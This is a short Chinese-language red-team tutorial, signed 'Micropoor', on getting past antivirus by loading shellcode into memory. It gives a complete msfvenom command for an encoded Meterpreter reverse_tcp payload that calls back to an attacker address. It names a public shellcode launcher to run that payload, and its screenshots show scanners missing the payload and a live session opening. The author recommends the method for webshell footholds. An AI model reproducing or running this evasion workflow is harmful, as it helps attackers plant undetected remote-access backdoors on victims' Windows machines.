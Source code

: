 目前的反病毒安全软件，常见有三种，一种基于特征，一种基于行为，一种基于云查杀。云查杀的特点基本也可以概括为特征查杀。无论是哪种，都是特别针对 PE 头文件的查杀。尤其是当 payload 文件越大的时候，特征越容易查杀。

既然知道了目前的主流查杀方式，那么反制查杀，此篇采取特征与行为分离免杀。避免 PE 头文件，并且分离行为，与特征的综合免杀。适用于菜刀下等场景，也是我在基于 windows 下为了更稳定的一种常用手法。载入内存。

### 0x00:以msf为例：监听端口  
![](/img/e443cf6dc02a20a342291d5c06ccec4f.jpg)

### 0x01：这里的payload不采取生成pe文件，而采取shellcode方式，来借助第三方直接加载到内存中。避免行为：

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.1.5 lport=8080 -e x86/shikata_ga_nai -i 5 -f raw > test.c
```
![](/img/1a912494f05f8ca99edf268225e1a66f.jpg)

### 0x02:既然是shellcode方式的payload，那么一定需要借助第三方来启动，加载到内存。执行shellcode，自己写也不是很难，这里我借用一个github一个开源：  
https://github.com/clinicallyinane/shellcode_launcher/

**作者的话：建议大家自己写shellcode执行盒，相关代码网上非常成熟。如果遇到问题，随时可以问我。**  

![](/img/168b6471db08e03cbca360642e0bcb0c.jpg)

生成的payload大小如下：476字节。还是 X32位的 payload。  
![](/img/92ab172a1914132282d7a5bfd14ab31d.jpg)

国内世界杀毒网：  
![](/img/7749133623a7d6b774e000605ce77a57.jpg)

国际世界杀毒网：  
![](/img/663bc4d955c71bf9882c9a31761e0c14.jpg)

上线成功。  
![](/img/be28c1202684af6369757b813f4d9649.jpg)


>   Micropoor
